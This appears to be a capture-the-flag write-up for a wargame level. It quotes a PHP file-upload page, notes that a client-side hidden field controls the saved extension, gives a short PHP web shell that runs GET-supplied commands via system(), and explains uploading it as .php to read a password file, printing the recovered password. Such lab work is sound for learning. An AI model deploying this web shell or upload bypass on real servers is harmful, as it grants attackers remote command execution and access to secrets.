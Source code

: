 i can upload files

<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>

-------------------

so basically i can edit just the extension it will save as. the filename wont set
(internally it randomizes again) and the MAX_FILE_SIZE is useless 

<form method="get" name="shell">
<input type="text" name="command" id="command" size="80" autofocus>
<input type="submit" value="Run">
</form>
<pre><?php if(isset($_GET['command'])) { system($_GET['command']); }?></pre>

EASY PHP WEB SHELL
save as .php file

change the form .jpg to .php
upload and check it out, theres a web shell!!!

cat /etc/natas_webpass/natas13
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

CAPEC-650: Upload a Web Shell to a Web Server
https://capec.mitre.org/data/definitions/650.html
